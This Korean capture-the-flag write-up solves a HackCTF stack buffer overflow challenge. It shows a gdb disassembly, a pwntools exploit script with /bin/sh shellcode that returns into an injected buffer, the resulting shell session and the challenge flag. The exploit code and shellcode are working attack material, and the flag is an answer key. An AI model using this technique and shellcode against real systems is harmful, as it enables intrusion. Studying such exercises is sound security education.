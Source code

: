 #내 버퍼가 흘러넘친다!

---

전체 코드는 다음과 같다.

```assembly
gdb-peda$ pd main
Dump of assembler code for function main:
   0x080484cb <+0>:	push   ebp
   0x080484cc <+1>:	mov    ebp,esp
   0x080484ce <+3>:	sub    esp,0x14
   0x080484d1 <+6>:	mov    eax,ds:0x804a040
   0x080484d6 <+11>:	push   0x0
   0x080484d8 <+13>:	push   0x2
   0x080484da <+15>:	push   0x0
   0x080484dc <+17>:	push   eax
   0x080484dd <+18>:	call   0x80483b0 <setvbuf@plt>
   0x080484e2 <+23>:	add    esp,0x10
   0x080484e5 <+26>:	push   0x80485b0
   0x080484ea <+31>:	call   0x8048380 <printf@plt>
   0x080484ef <+36>:	add    esp,0x4
   0x080484f2 <+39>:	push   0x32
   0x080484f4 <+41>:	push   0x804a060
   0x080484f9 <+46>:	push   0x0
   0x080484fb <+48>:	call   0x8048370 <read@plt>
   0x08048500 <+53>:	add    esp,0xc
   0x08048503 <+56>:	push   0x80485b8
   0x08048508 <+61>:	call   0x8048380 <printf@plt>
   0x0804850d <+66>:	add    esp,0x4
   0x08048510 <+69>:	lea    eax,[ebp-0x14]
   0x08048513 <+72>:	push   eax
   0x08048514 <+73>:	call   0x8048390 <gets@plt>
   0x08048519 <+78>:	add    esp,0x4
   0x0804851c <+81>:	mov    eax,0x0
   0x08048521 <+86>:	leave  
   0x08048522 <+87>:	ret    
End of assembler dump.
```

`read()`함수에서 0x32 bytes만큼 0x804a060에 저장한다. 이곳에 shellcode를 넣고 gets함수에서 발생하는 stackoverflow를 통해서 ret주소를 **0x804a060**으로 바꾸어주겠다.

`main()+69`를 보면 `gets()`를 통해서 입력받는 문자열을 ebp-0x14에 저장하는 것을 알 수 있다. 때문에 ret주소를 바꾸기 위해서는 payload를 다음과 같이 짜면 될 것이다.

**[dummy 24bytes] + 0x804a060** 

다음과 같은 코드를 이용해서 익스에 성공했다.

```python
from pwn import*
p=remote('ctf.j0n9hyun.xyz', 3003)
ret_address=0x804a060
shellcode='\x31\xc0\x31\xd2\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80'
p.recvuntil('Name : ')
p.sendline(shellcode)
p.recvuntil('input : ')
payload='A'*24
payload+=p32(ret_address)
p.sendline(payload)
p.interactive()
```


    sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/4.prob$ python ex.py
    [+] Opening connection to ctf.j0n9hyun.xyz on port 3003: Done
    [*] Switching to interactive mode
    $ whoami
    attack
    $ ls
    flag
    main
    $ cat flag
    HackCTF{1_l0v3_70p_pwn3r_m4lhyuk}

**flag: HackCTF{1_l0v3_70p_pwn3r_m4lhyuk}**